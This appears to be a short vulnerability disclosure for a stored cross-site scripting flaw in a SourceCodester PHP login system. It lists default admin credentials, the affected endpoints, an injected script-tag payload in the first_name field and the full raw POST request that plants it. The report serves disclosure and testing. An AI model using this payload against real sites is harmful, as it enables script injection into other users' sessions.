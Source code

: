 ## User Registration and Login System by rems has xss (Stored XSS)

BUG_Author: hlhyp

vendors: https://www.sourcecodester.com/php/16890/user-registration-and-login-system-using-php-source-code.html


username && password : admin/admin

Vulnerability File: /endpoint/add-user.php ;/home.php


[+] payload: contact_number=1&email=testing%40example.com&first_name=LgyxmpHT--><ScRiPt%20>alert(9221)</ScRiPt><!--&last_name=LgyxmpHT&password=u]H[ww6KrA9F.x-F&username=LgyxmpHT

First:

```
POST /endpoint/add-user.php HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Referer: http://192.168.6.1/
Content-Length: 164
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate,br
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Host: 192.168.6.1
Connection: Keep-alive

contact_number=1&email=testing%40example.com&first_name=LgyxmpHT--><ScRiPt%20>alert(9221)</ScRiPt><!--&last_name=LgyxmpHT&password=u]H[ww6KrA9F.x-F&username=LgyxmpHT
```

Then access /home.php 

![Alt text](image-1.png)
